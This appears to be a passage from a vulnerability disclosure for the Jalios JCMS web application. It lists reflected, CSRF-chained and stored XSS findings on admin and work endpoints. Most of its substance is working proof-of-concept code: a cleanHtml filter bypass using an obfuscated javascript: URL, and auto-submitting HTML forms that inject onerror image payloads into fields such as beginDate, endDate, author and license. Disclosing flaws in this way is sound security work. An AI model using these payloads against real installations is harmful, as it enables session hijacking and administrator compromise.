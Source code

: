 - *?html=%3Ca%20href%3DJa%26Tab%3Bvascript%26colon%3Balert%28%29%3ECLICK%20HERE*
```html
<a href=Ja&Tab;vascript&colon;alert()>CLICK HERE
```

![bypass cleanHtml](./img/16.png)

## XSS Post + CSRF
- XSS on `/admin/analytics/index.jsp` in the fields `beginDate` and `endDate`  
```html
<html> 
  <body> 
    <form action="http://172.22.12.128:8080/jalios/admin/analytics/index.jsp" method="POST"> 
      <input type="hidden" name="analyticsWS" value="ALL&#95;WORKSPACE" /> 
      <input type="hidden" name="beginDate" value="doAjaxGroupList&quot;&quot;&gt;&lt;img&#47;src&#47;onerror&#61;alert&#40;1&#41;&gt;" /> 
      <input type="hidden" name="endDate" value="doAjaxGroupList&quot;&quot;&gt;&lt;img&#47;src&#47;onerror&#61;alert&#40;2&#41;&gt;" /> 
      <input type="hidden" name="opSubmit" value="true" /> 
    </form> 
    <script> 
      document.forms[0].submit(); 
    </script> 
  </body> 
</html>
```

- On `/work/mergeDocument.jsp` in the `redirect` field
![mergeDocument](./img/9.png)

- In the subtitle upload of a video: `/work/mediaTracksUploadModal.jsp` (`redirect`)
![srt xss](./img/10.png)

## Stored XSS (*Admin*)
- Stored on `/admin/editPlugin.jsp` and triggered on `/admin/pluginManager.jsp`  
```html
<html> 
  <body> 
    <form action="http://172.22.12.128:8080/jalios/admin/editPlugin.jsp" method="POST"> 
      <input type="hidden" name="label" value="POC XSS" /> 
      <input type="hidden" name="label" value="" /> 
      <input type="hidden" name="name" value="XSS" /> 
      <input type="hidden" name="description" value="&lt;div&#32;class&#61;&quot;wysiwyg&quot;&gt;&lt;p&gt;Poc&#32;for&#32;Stored&#32;XSS&lt;&#47;p&gt;&lt;&#47;div&gt;" /> 
      <input type="hidden" name="description" value="" /> 
      <input type="hidden" name="version" value="0&#46;1" /> 
      <input type="hidden" name="order" value="0" /> 
      <input type="hidden" name="url" value="" /> 
      <input type="hidden" name="author" value="&lt;img&#47;src&#47;onerror&#61;alert&#40;1&#41;&gt;" /> 
      <input type="hidden" name="license" value="&lt;img&#47;src&#47;onerror&#61;alert&#40;2&#41;&gt;" /> 
      <input type="hidden" name="jcms" value="" /> 
      <input type="hidden" name="jsync" value="false" /> 
      <input type="hidden" name="appServer" value="" /> 
      <input type="hidden" name="appServer" value="" /> 
      <input type="hidden" name="redirect" value="" /> 
      <input type="hidden" name="opSave" value="Enregistrer" /> 
    </form> 
    <script> 
      document.forms[0].submit(); 
    </script> 
  </body> 
```